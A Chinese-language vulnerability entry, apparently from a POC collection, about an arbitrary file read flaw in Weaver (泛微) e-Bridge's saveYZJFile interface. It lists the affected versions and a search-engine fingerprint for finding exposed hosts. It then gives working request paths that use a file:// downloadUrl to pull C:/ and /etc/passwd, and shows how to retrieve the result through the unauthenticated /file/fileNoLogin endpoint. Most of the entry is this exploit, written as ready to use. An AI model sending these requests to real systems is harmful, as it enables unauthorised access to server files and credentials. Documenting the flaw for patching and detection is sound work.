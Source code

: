 # 泛微OA E-Bridge saveYZJFile 任意文件读取漏洞

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响版本

<a-checkbox checked>泛微云桥 e-Bridge 2018-2019 多个版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="泛微云桥e-Bridge"</a-checkbox></br>

## 漏洞复现

```
# Windows验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt
```

![img](../../../.vuepress/public/img/fanwei-1.png)



成功返回 `id值`,说明含有此漏洞

<a-alert type="success" message="调用查看文件接口访问 /file/fileNoLogin/id值" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/fanwei-2.png)



### 

```
# Linux验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```

![img](../../../.vuepress/public/img/fanwei-3.png)



成功返回 `id值`,说明含有此漏洞

调用查看文件接口访问 `/file/fileNoLogin/id值`

![img](../../../.vuepress/public/img/fanwei-4.png)